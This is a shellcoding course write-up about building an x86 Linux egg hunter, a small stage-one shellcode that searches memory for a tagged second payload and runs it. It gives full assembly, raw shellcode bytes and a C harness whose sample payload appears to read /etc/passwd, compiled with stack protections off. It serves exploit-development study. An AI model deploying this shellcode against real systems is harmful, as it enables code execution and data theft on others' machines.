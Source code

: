 # Project 3: Egg hunter

- Study about the Egg Hunter shellcode
- Create a working demo of the Egghunter
- Should be configurable for different payloads




# What is an egg hunter?

A really good blog post by a previous student [H0mbre](https://h0mbre.github.io/SLAE_Egg_Hunter/) does a really great job consolidating information on egg hunters. Of note, he mentions [this paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which defines a few techniques for writing an egg hunter. When searching egg hunters online, you will see a lot of examples using the [access()](https://man7.org/linux/man-pages/man2/access.2.html) method check for validating linux pages of memory that are readable such as [this one](https://rastating.github.io/creating-an-egg-hunter/) by rastating and another on [infosecwriteups](https://infosecwriteups.com/expdev-egghunter-linux-implementation-49154ff4d225) by bigb0ss. Conversely, I only found a few egg hunters using the `sigcheck()` method to check for valid memory without receiving SIGSEGV signal. That said, I did find one example of it's use by [mmquant](https://mmquant.net/egg-hunters-on-linux/#egghunter_example_sigaction). I mention this to point out a few techniques for finding eggs without throwing exceptions from trying to read memory in inaccessable addresses.

In short, an egg hunter is a two stage payload when you have limited buffer space for your overflow. If you can insert the main payload somewhere in memory, you can use a small egg hunter to search for that main payload and execute it. For more specific details, please refer to the links above. 

For this assignment I will walk through the `access()` egg hunter methodology. I will use the egg `"c0de" or 0x65643063 (little endian)` as it seems [epi](https://epi052.gitlab.io/notes-to-self/blog/2020-05-18-osce-exam-practice-part-three/#mona-py-egg) has found it to work better than some other eggs such as `"W00T"` and it's a bit funner than random characters.


# Egg Hunter Assembly 

After playing with H0mbre's code as a means of learning, I wanted to change the assembly a bit so it's not a copy paste. That said, the assembly is pretty much the basic method of doing an `access()` egg hunter. I also didn't want to insert a bunch of junk statements just to make the assembly different. Thus, I only made a couple changes.

The first change was to replace the `mov ebx, <egg>` with `mov esi, <egg>`. Thus, I now store my egg in the `esi` regsiter instead of `ebx`. Because of this, I was able to remove the `pushad` and `popad` instructions as a means of saving registers since my egg was not constantly overwritten with the first argument of the access() call. 

Now that the `pushad/popad` instructions are removed, the only register that keeps getting overwritten is `eax` which holds the return value of the access() call. Usuall 0xfffffff2 or 0xfffffffb. To remedy this, I changed the `mov al, 0x21` to a `push 0x21; pop eax`. This will not add null bytes to my assembly and will effectively reset the eax register with the proper value. 

These changes result in a shellcode that is 1 byte less than the original. 

However, this shellcode did not work. After some debugging, the rather obvious answer appeared. The shellcode eventually jumps to the address in `edx` which holds our egg. What I need to do is jump past the egg to the actual instructions to execute. To do this, a simple `add edx, 0x8` is inserted right before `jmp edx` and the shellcode executes flawlessly. 

Since I want the egg to be `c0d3`, I make the egg stored in register `esi` set to `0x33643063` (3d0c)... which is `c0d3 | 0x63306433` in little endian.

The final assembly is as follows:

```assembly
global _start

section .text
_start:
    mov esi, 0x33643063	; egg ("c0d3"), backwards in little endian = "3d0c" = 0x33643063
    xor ecx, ecx		
    mul ecx             ; set eax and edx to 0

page_forward:		    ; here, we're going to design a function of what to do if we get an EFAULT error
    or dx, 0xfff		; doing a bitwise logical OR against the $dx value
                        ; dx=4095 ; 0x1000 - 1 (4095) ; Page sizes in Linux x86 = 4096

address_check:		    ; here we're going to design a function to check the next 8 bytes of mem
    inc edx			    ; gets $edx to a nice multiple of 4096
    lea ebx, [edx+4]	; load [edx+4] to check if this fresh page is readable by us
    push 0x21		; access()
    pop eax
    int 0x80

    cmp al, 0xf2		; does the low-end of $eax equal 0xf2? did we get an EFAULT? 
    jz page_forward		; if we got an EFAULT, this page is unreadable, time to go to the next page!

    cmp [edx], esi		; is what is stored at the address of $edx our egg (0x65643063) ?
    jnz address_check	; if it's not, let's advance into the page and see if we can't find that pesky egg
    
    cmp [edx+4], esi	; we found our egg once, let's see if it's also in $edx + 4
    jnz address_check	; we found it once but not twice, have to keep looking
    
    add edx, 0x8        ; jump past our egg to our actual shellcode
    jmp edx			    ; we found it twice! go to edx (where our egg is) +8 and execute the code there! 
```


Shellcode (Length: 41 bytes):

```c
"\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2"
```

# Testing

To test, the shellcode can be executed with dynamic payloads using this egg_hunter_test.c program:

```c
#include <sys/mman.h>
#include <stdio.h>
#include <string.h>

unsigned char hunter[] = "\xbe\x63\x30\x64\x33\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\x39\x32\x75\xef\x39\x72\x04\x75\xea\x83\xc2\x08\xff\xe2";
unsigned char code[] = "\x63\x30\x64\x33\x63\x30\x64\x33\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\x01\x10\x4a\xcd\x80\x92\x29\xc0\xb0\x04\xb3\x01\xcd\x80\xb0\x01\xcd\x80";
	

int main(){
    printf("Hunter length: %d\n", strlen(hunter));
    printf("Shellcode length: %d\n", strlen(code));


    int r =  mprotect((void *)((int)hunter & ~4095),  4096, PROT_READ | PROT_WRITE|PROT_EXEC);
    printf("mprotect: %d\n",r);
    int (*ret)() = (int(*)())hunter;
    return ret();
    // return 1;
}
```

Of note is that the `code` variable can be any payload you want, just ensure it is prepended with the egg twice `\x63\x30\x64\x33\x63\x30\x64\x33` (c0d3c0d3).

Compile and run using 

```bash
gcc -fno-stack-protector -z execstack -m32 egg_hunter_test.c -o egg_hunter 
./egg_hunter
```


# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: SLAE-alecjmaly
